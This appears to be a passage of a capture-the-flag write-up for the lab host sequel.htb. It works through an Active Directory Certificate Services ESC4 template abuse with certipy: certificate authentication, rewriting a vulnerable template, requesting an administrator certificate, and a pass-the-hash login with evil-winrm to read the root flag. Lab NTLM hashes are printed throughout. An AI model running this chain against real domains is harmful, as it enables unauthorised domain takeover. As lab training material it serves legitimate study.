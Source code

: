 ```python
    f"certipy cert -export -pfx '{pfx_path}' -password '{pfx_password}' -out 'unprotected1.pfx'",
    shell=True,
)

subprocess.run(
    f"certipy auth -pfx unprotected1.pfx -dc-ip $(cat ip.txt) -domain '{domain}' -username {target}",
    shell=True,
)
```

Got the hash:
- 'ca_svc@sequel.htb': aad3b435b51404eeaad3b435b51404ee:3b181b914e7a9d5508ea1e20bc2b7fce

Now we use certipy find and it should tell us the correct ESC[n]
```bash
KRB5CCNAME=./ca_svc.ccache certipy find -dc-ip $(cat ip.txt) -target dc01.sequel.htb -k -vulnerable
    Template Name                       : DunderMifflinAuthentication
    ...
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

And the final part is:
```bash
certipy template \
    -u 'ca_svc' -hashes 'aad3b435b51404eeaad3b435b51404ee:3b181b914e7a9d5508ea1e20bc2b7fce' \
    -target sequel.htb \
    -dc-ip $ip \
    -template 'DunderMifflinAuthentication' \
    -write-default-configuration \

certipy req \
    -u 'ca_svc' -hashes 'aad3b435b51404eeaad3b435b51404ee:3b181b914e7a9d5508ea1e20bc2b7fce' \
    -ca 'sequel-DC01-CA' \
    -target sequel.htb \
    -dc-ip $ip \
    -template 'DunderMifflinAuthentication' \
    -upn 'administrator@sequel.htb'

certipy auth -dc-ip $(cat ip.txt) -pfx administrator.pfx
# [*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
evil-winrm -i $(cat ip.txt) -u 'administrator' -H 7a8d4e04986afa8ed4060f75e5a0b3ff
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
9cbac***************************
```

